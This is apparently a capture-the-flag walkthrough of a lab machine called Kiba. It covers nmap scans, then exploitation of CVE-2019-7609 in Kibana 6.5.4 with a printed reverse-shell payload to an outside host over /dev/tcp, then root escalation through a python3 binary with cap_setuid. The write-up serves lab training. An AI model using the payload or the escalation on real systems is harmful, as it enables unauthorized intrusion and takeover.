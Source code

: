 # Nmap
```sh
┌──(kali㉿kali)-[~/THM/KIBA/recon/nmap]
└─$ nmap kiba.thm -p-  --min-rate 2000 -vv -Pn -oA init

...
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack
80/tcp   open  http        syn-ack
5044/tcp open  lxi-evntsvc syn-ack
5601/tcp open  esmagent    syn-ack

```

```sh
──(kali㉿kali)-[~/THM/KIBA/recon/nmap]
└─$ nmap kiba.thm -p22,80,5044,5601  --min-rate 2000 -vv -Pn -oA openscsvs -sC -sV

...PORT     STATE SERVICE      REASON  VERSION
22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9df8d157132481b6185d048ed2384f90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdVrdscXW6Eaq1+q+MgEBuU8ngjH5elzu6EOX2UJzNKcvAgxLrV0gCtWb4dJiJ2TyCLmA5lr0+8/TCInbcNfvXbmMEjxv0H3mi4Wjc/6wLECBXmEBvPX/SUyxPQb9YusTj70qGxgyI6SCB13TKftGeHOn2YRGLkudRF5ptIWYZqRnwlmYDWvuEBotWyUpfC1fGEnk7iH6gr3XJ8pwhY8wOojWaXEPsSZux3iBO52GuHILC14OiR/rQz9jxsq4brm6Zk/RhPCt1Ct/5ytsPzmUi7Nvwz6UoR6AeSRSHxOCnNBRQc2+5tFY7JMBBtvOFtbASOleILHkmTJBuRK3jth5D
|   256 e1e67aa1a11cbe03d24e271b0d0aecb1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2fQ/bb8Gwa5L5++T3T5JC7ZvciybYTlcWE9Djbzuco0f86gp3GOzTeVaDuhOWkR6J3fwxxwDWPk6k7NacceG0=
|   256 2abae5c5fb51381745e7b154caa1a3fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJk7PJIcjNmxjQK6/M1zKyptfTrUS2l0ZsELrO3prOA0
80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc? syn-ack
5601/tcp open  esmagent?    syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:09 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:04 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:06 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
.....
```

# Port 80
Enumerated with whatweb, nikto, dirb. maybe comeback later
Only linux capabilities?/?

# port 5044
No results in nmap

```sh
nc -nvv 10.10.195.146 5044

(UNKNOWN) [10.10.195.146] 5044 (?) open

```

Let's continue

# Port 5601
from the nmap results we can see that there is an http 302 code. which means a redirect. When we visit:
http://kiba.thm:5601 we get redirected to http://kiba.thm:5601/app/kibana

After googling what kibana is:

> Kibana is an free and open frontend application that sits on top of the Elastic Stack, providing search and data visualization capabilities for data indexed in Elasticsearch.

We will enumerate the application and look For some version numbers.

Got io! We fund the version by clivking on Management. Version: 6.5.4

# Exploit
After googling for 'kibana 6.5.4 vulnerabilites' We finnd cve-2019-7609. This vulnerabultity allows us to execute code on the machine.

Instructions for the expoloit can be found here: https://github.com/mpgn/CVE-2019-7609

```sh
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.40.46/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
BAM! We have a shell as user 'kiba'. We can read the user flag from kiba's home directory.

# Pivileges escaltion
Linpeas showed an interesting file with capabilites:

Manual searching for binaries with capabilites:
```sh
getcap -r / 2>/dev/null
```

Capabilites https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities

cap_setuid+ep

```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
So what happens here:
 The CAP_SETUID capability is described as: Make arbitrary manipulations of process UIDs [source](https://man7.org/linux/man-pages/man7/capabilities.7.html)
 UID is the User Identifier. A process carries the UID pf the user who started the process. The UID is used to decide teh privilege to preform operations on resources.
 The UID 0 is reserved for root users. 
 On the home/kiba/.hackmeplease/python3 binary we have setuid capabilites. which means that we can  manipulate the process UID. 
 Sounds great to set the UID to 0 on the process we start with python. 

 But first check what happens if we don't change the UID en we execute the python command with the UID of the current user kiba.
 
```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.system("/bin/bash")'
```
We can get the process id with:
```sh
ps -aux | grep python3
```
Then we can get the UID of the process with:
```sh
ps -p <PID> -o uid
```
Here we see that the UID is 1000

Now with the UID set to 0:
```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Here we see that we are runing the process as the user root and the UID is set to 0 as we expected.

